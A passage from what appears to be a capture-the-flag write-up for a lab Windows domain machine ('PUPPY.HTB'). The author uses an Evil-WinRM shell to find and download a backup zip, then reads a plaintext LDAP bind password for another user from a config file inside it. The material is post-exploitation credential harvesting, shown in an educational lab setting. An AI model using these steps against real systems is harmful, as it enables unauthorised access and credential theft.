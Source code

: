 ## steph.cooper

after logging in, I looked around in the file system and found a `Backups` directories under `C:\` with an interesting zip file inside

```bash
*Evil-WinRM* PS C:\Users\adam.silver\Documents> cd ../../../
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025  12:25 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows


*Evil-WinRM* PS C:\> ls Backups


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip


Evil-WinRM* PS C:\> download Backups/site-backup-2024-12-30.zip
Info: Download successful!
*Evil-WinRM* PS C:\>
```

inside the zip file I found another file `ded` which had `steph.cooper`'s password inside, which was another member of the `REMOTE MANAGEMENT USERS` group

```bash
$ unzip site-backup-2024-12-30.zip
$ ls puppy/
assets  images  index.html  nms-auth-config.xml.bak
$ cat puppy/nms-auth-config.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
```